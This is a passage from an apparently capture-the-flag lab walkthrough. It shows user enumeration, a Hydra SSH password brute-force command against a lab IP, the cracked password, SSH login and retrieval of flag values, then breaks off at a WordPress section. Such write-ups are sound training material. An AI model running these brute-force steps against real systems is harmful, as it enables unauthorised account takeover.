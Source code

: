 **🚩 Flag 1:** `e0199768ac394d67a9307c9b9d515ae0`

### Flag 2: User Compromise via SSH Brute Force

#### Step 1: User Enumeration

Now let's look for other ways to access this system. We'll enumerate users to see if there are any accounts we can target. Let's check the `/home` directory to see what users exist on the system.

Enumerate users on the system:

```bash
ls -l /home
```

**Discovery:** User `iamaweakuser` exists - suggesting a weak password.

#### Step 2: Password Brute Force

Interesting! We found a user called `iamaweakuser` - that name suggests they might have a weak password. Since SSH is running on port 22 (from our nmap scan), let's try to brute force this user's password using Hydra with a common password wordlist.

Since SSH is open, attempt brute force attack using Hydra:

```bash
hydra -l iamaweakuser -P "/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt" 192.90.71.3 -t 4 ssh
```

**Result:**
```
[22][ssh] host: 192.90.71.3   login: iamaweakuser   password: angel
```

#### Step 3: SSH Access and Flag Retrieval

Excellent! Hydra found the password is "angel". Now we can use these credentials to SSH into the target and access the user's account.

Connect via SSH:

```bash
ssh iamaweakuser@192.90.71.3
```

Retrieve the flag:

```bash
ls
cat flag2.txt
```

**🚩 Flag 2:** `FLAG2{340d4657e8e14797aca992d13c6d2207}`

---

## Target 2: WordPress Plugin Exploitation

